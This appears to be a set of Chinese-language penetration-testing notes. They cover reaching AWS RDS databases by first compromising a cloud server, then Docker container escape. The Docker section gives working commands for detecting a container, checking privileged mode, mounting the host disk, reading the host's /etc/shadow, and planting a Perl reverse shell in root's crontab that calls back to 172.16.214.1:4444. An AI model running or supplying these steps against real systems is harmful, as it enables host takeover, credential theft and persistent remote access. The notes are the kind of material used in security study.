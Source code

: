 在Amazon Web Services (AWS)中，用户可以通过VPC创建和管理自己的虚拟网络环境。AWS RDS（关系数据库服务）允许用户在VPC内创建数据库实例，从而确保数据库实例在一个受控的、安全的网络环境中运行。用户可以通过配置子网、路由表、安全组等，确保数据库实例只能被授权的资源访问。
只能通过指定内网访问，所以很安全，一般来说拿下云服务，再通过云服务拿到数据库账号密码进行访问

主要知道怎么连接云数据库就行，避免遇到不会连接
连接方式：白名单&外网，用navicat连接
           在内网的话，需要内网的一个服务器做转发

#  docker
## 容器镜像存在的风险
不安全的第三方组件，不安全的恶意镜像，敏感信息泄露，容器逃逸
## 容器逃逸
特权模式启动
危险挂载启动
docker自身&系统漏洞 
ps：特权和挂载需要高权限（java，jsp等无需提权的环境，否则需要先提权 ）

判断目标是不是有docker
没拿到权限：
端口扫描详细信息看看有没有关键字，根据应用对象表现（靠经验（版本等））
拿到权限：
检查/.dockerenv文件，判断该文件是否存在，可以简单识别docker环境
k8s和docker环境下：ls -alh /.dockerenv可以找到文件
检查cgroup，不同环境不一样
cat /proc/1/cgroup

 ### privileged特权模式下
 在普通用户下，使用 --privileged=true 创建一个容器

```
docker run --rm --privileged=true -it alpine
```
在容器内部执行下面的命令，从而判断容器是不是特权模式，如果是以特权模式启动的话，CapEff 对应的掩码值应该为0000003fffffffff 或者是 0000001fffffffff

```
cat /proc/self/status | grep CapEff    //判断特权
```
在容器内部执行以下命令，将宿主机文件挂载到 /test 目录下

```
mkdir /test && mount /dev/sda1 /test
```

尝试访问宿主机 shadow 文件，可以看到正常访问

```
cat /test/etc/shadow
```
也可以在定时任务中写入反弹 shell

这里的定时任务路径是 Ubuntu 系统路径，不同的系统定时任务路径不一样

```
echo $'*/1 * * * * perl -e \'use Socket;$i="172.16.214.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' >> /test/var/spool/cron/crontabs/root
```
